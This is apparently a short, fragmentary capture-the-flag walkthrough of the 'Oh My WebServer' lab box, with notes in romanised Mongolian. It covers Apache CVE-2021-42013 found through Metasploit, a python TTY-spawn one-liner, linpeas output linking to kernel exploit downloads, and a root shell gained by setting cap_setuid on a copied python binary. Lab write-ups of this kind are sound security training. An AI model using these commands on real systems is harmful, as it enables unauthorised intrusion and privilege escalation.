









# oh my web server 10.10.29.21
1.

scan aar apache versiong harj msfconsole oos search hiij odo ajillaj baiga apacheg haraw

[+] http://10.10.29.21:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).

Spawning a TTY Shell

    The first thing to do is use python3 -c 'import pty;pty.spawn("/bin/bash")', which uses Python to spawn a better-featured bash shell. At this point, our shell will look a bit prettier, but we still won’t be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.

Hostname: 4a70924bafa0
[-] No network discovery capabilities (fping or ping not found)

╔══════════╣ Environment
╚ Any private information inside environment variables?                                                                 
USER=daemon                                                                                                             
SHLVL=1
HOME=/usr/sbin
OLDPWD=/home
LC_CTYPE=C.UTF-8
_=./linpeas.sh
LANG=C
PWD=/tmp

╔══════════╣ Searching Signature verification failed in dmesg
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#dmesg-signature-verification-failed   
dmesg Not Found                                                                                                         
                                                                                                                        
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                      
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)                                                                    

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-27365] linux-iscsi

   Details: https://blog.grimm-co.com/2021/03/new-old-bugs-in-linux-kernel.html
   Exposure: less probable
   Tags: RHEL=8
   Download URL: https://codeload.github.com/grimm-co/NotQuite0DayFriday/zip/trunk
   Comments: CONFIG_SLAB_FREELIST_HARDENED must not be enabled

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

╔══════════╣ Container related tools present (if any):
/usr/bin/nsenter                                                                                                        
/usr/bin/unshare
/usr/sbin/chroot
/sbin/capsh
/sbin/setcap
/sbin/getcap

╔══════════╣ Container details
═╣ Is this a container? ........... docker                                                                              
═╣ Any running containers? ........ No
                                                                                                                        
╔══════════╣ Docker Container details
═╣ Am I inside Docker group ....... No                                                                                  
═╣ Looking and enumerating Docker Sockets (if any):
═╣ Docker version ................. Not Found                                                                           
═╣ Vulnerable to CVE-2019-5736 .... Not Found                                                                           
═╣ Vulnerable to CVE-2019-13139 ... Not Found                                                                           
═╣ Vulnerable to CVE-2021-41091 ... Not Found                                                                           
═╣ Rootless Docker? ............... No   

╔══════════╣ Unix Sockets Analysis
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sockets                               
/usr/local/apache2/logs/cgisock.1                                                                                       
  └─(Read Write Execute )
  └─(Owned by root)

cp $(which python) .
sudo setcap cap_setuid+ep python

./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap  tatsannmap aa curl hiiw

tataj awsan python code oo curl daj awaad ajiluulahad root.flag aa olj chadsan

